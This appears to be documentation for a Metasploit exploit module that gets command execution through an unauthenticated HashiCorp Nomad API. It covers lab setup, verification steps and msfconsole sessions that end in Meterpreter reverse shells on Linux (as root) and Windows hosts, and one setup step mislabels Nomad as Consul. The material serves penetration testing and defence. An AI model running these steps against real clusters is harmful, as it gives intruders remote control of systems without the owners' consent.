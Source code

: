 ### Description

HashiCorp Nomad allows for clients to create jobs that can run in a Nomad cluster. Nomad provides a variety of drivers to allow for tasks to be run under. The 'raw_exec' and 'exec' drivers allow for OS commands to be run on a Nomad client. The 'raw_exec' option runs with higher privileges, while 'exec' is typically limited to lower privileges.

The API operates similarly to HashiCorp's Consul service, by allowing optional ACL tokens as an authentication mechanism. This is not enabled by default.

### Test Setup

First install Nomad (https://www.nomadproject.io/downloads)

```
curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
sudo apt-get update && sudo apt-get install nomad -y
```

Start Nomad

```
sudo nomad agent -dev -bind 0.0.0.0 -log-level INFO
```

Nomad should start up like the following:

```
==> No configuration files loaded
==> Starting Nomad agent...
==> Nomad agent configuration:

       Advertise Addrs: HTTP: 192.168.1.2:4646; RPC: 192.168.1.2:4647; Serf: 192.168.1.2:4648
            Bind Addrs: HTTP: 0.0.0.0:4646; RPC: 0.0.0.0:4647; Serf: 0.0.0.0:4648
                Client: true
             Log Level: INFO
                Region: global (DC: dc1)
                Server: true
               Version: 1.0.5

==> Nomad agent started! Log data will stream in below:

    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=docker type=driver plugin_version=0.1.0
    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=raw_exec type=driver plugin_version=0.1.0
    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=exec type=driver plugin_version=0.1.0
    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=qemu type=driver plugin_version=0.1.0
    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=java type=driver plugin_version=0.1.0
    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=nvidia-gpu type=device plugin_version=0.1.0
    2021-05-18T09:51:21.894-0500 [INFO]  nomad.raft: initial configuration: index=1 servers="[{Suffrage:Voter ID:192.168.1.2:4647 Address:192.168.1.2:4647}]"
    2021-05-18T09:51:21.894-0500 [INFO]  nomad.raft: entering follower state: follower="Node at 192.168.1.2:4647 [Follower]" leader=
    2021-05-18T09:51:21.898-0500 [INFO]  nomad: serf: EventMemberJoin: nomad.global 192.168.1.2
    2021-05-18T09:51:21.898-0500 [INFO]  nomad: starting scheduling worker(s): num_workers=8 schedulers=[service, batch, system, _core]
    2021-05-18T09:51:21.900-0500 [INFO]  nomad: adding server: server="nomad.global (Addr: 192.168.1.2:4647) (DC: dc1)"
    2021-05-18T09:51:21.918-0500 [INFO]  client: using state directory: state_dir=/tmp/NomadClient084393005
    2021-05-18T09:51:21.918-0500 [INFO]  client: using alloc directory: alloc_dir=/tmp/NomadClient993736104
    2021-05-18T09:51:21.922-0500 [INFO]  client.fingerprint_mgr.cgroup: cgroups are available
    2021-05-18T09:51:23.045-0500 [WARN]  nomad.raft: heartbeat timeout reached, starting election: last-leader=
    2021-05-18T09:51:23.045-0500 [INFO]  nomad.raft: entering candidate state: node="Node at 192.168.1.2:4647 [Candidate]" term=2
    2021-05-18T09:51:23.045-0500 [INFO]  nomad.raft: election won: tally=1
    2021-05-18T09:51:23.045-0500 [INFO]  nomad.raft: entering leader state: leader="Node at 192.168.1.2:4647 [Leader]"
    2021-05-18T09:51:23.045-0500 [INFO]  nomad: cluster leadership acquired
    2021-05-18T09:51:23.052-0500 [INFO]  nomad.core: established cluster id: cluster_id=3266f8d4-f93b-0491-f352-b508401faeb7 create_time=1621349483050579397
    2021-05-18T09:51:28.066-0500 [INFO]  client.plugin: starting plugin manager: plugin-type=csi
    2021-05-18T09:51:28.066-0500 [INFO]  client.plugin: starting plugin manager: plugin-type=driver
    2021-05-18T09:51:28.066-0500 [INFO]  client.plugin: starting plugin manager: plugin-type=device
    2021-05-18T09:51:33.588-0500 [INFO]  client: started client: node_id=4b972587-fc0c-3937-29db-318433d0135a
    2021-05-18T09:51:33.606-0500 [INFO]  client: node registration complete
    2021-05-18T09:51:34.608-0500 [INFO]  client: node registration complete
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/nomad_exec`
  4. Do: `set RHOST 192.168.1.2`
  5. Do: `set RPORT 4646`
  6. Do: `check`. The target should show as vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST eth0` (Attacker's default NIC)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

```
msf6 > use exploit/multi/misc/nomad_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/misc/nomad_exec) > set RHOST 192.168.1.2
RHOST => 192.168.1.2
msf6 exploit(multi/misc/nomad_exec) > set RPORT 4646
RPORT => 4646
msf6 exploit(multi/misc/nomad_exec) > check
[+] 192.168.1.2:4646 - The target is vulnerable.
msf6 exploit(multi/misc/nomad_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/misc/nomad_exec) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/misc/nomad_exec) > run

[*] Started reverse TCP handler on 192.168.1.3:4444 
[*] Creating job 'RjLhSsR'
[*] Job 'RjLhSsR' successfully created as '9ea94eb3-5a63-d9e2-dd36-3375ee301d5d'.
[*] Waiting for job 'RjLhSsR' to trigger
[*] Sending stage (984904 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.2:53978) at 2021-05-18 10:01:00 -0500
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > sysinfo
Computer     : 192.168.1.2
OS           : Ubuntu 18.04 (Linux 4.15.0-128-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: root @ nomad (uid=0, gid=0, euid=0, egid=0)

```

### Reverse shell on Windows host

```
msf6 > use exploit/multi/misc/nomad_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/misc/nomad_exec) > set RHOSTS 192.168.1.4
RHOSTS => 192.168.1.4
msf6 exploit(multi/misc/nomad_exec) > set RPORT 4646
RPORT => 4646
msf6 exploit(multi/misc/nomad_exec) > set TARGET Windows 
TARGET => Windows
msf6 exploit(multi/misc/nomad_exec) > check
[+] 192.168.1.4:4646 - The target is vulnerable.
msf6 exploit(multi/misc/nomad_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/misc/nomad_exec) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/misc/nomad_exec) > run

[*] Started reverse TCP handler on 192.168.1.3:4444 
[*] Using URL: http://0.0.0.0:8080/7xalf9984X4by
[*] Local IP: http://192.168.1.3:8080/7xalf9984X4by
[*] Creating job 'WgsLus'
[*] Job 'WgsLus' successfully created as 'fba1132d-c381-3945-e5e4-5e7ebdd24aa5'.
[*] Waiting for job 'WgsLus' to trigger
[*] Client 192.168.1.4 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.610) requested /7xalf9984X4by
[*] Sending payload to 192.168.1.4 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.610)
[*] Sending stage (175174 bytes) to 192.168.1.4
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:52922) at 2021-05-18 10:08:23 -0500
[*] Command Stager progress - 100.00% done (151/151 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer        : DESKTOP-1CE7MB4
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

```
